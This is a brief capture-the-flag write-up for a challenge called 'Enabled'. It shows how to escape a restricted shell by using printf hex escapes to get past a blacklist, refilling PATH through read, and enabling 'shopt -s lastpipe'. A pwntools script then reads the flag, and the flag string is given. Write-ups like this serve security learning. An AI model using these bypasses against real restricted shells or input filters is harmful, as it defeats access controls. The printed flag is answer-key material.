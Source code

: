 ```yaml
---
ai_date: 2025-05-17 21:38:39
ai_summary: Bypassed blacklist using printf and read to set PATH, then exploited with shopt -s lastpipe and cat flag
ai_tags:
  - shell
  - cmd-injection
  - path-traversal
created: 2025-05-17T04:45
points: 436
solves: 96
title: Enabled
updated: 2025-05-17T21:52
---
```


Well we can use `printf` to bypass the blacklist.

Let's then try refilling the PATH variable with `read`.

```bash
printf '\\x2fbin:\\x2fusr\\x2fbin'|read PATH
set
```

Well it didn't work, `PATH` is empty.

I looked online and apparently there is this command `shopt -s lastpipe` that allows the last command in a pipeline to run in the current shell.

So it would actually set the `PATH` variable.

```python
from pwn import *
r = remote("enabled.chal.cyberjousting.com", 1352)
r.sendline(b"shopt -s lastpipe")
r.sendline(b"printf '\\\\x2fbin:\\\\x2fusr\\\\x2fbin'|read PATH")
r.sendline(b"bash")
r.sendline(b"cat /flag/flag.txt")
print(r.recvall(timeout=1).decode())
```

```flag
byuctf{enable_can_do_some_funky_stuff_huh?_488h33d}
```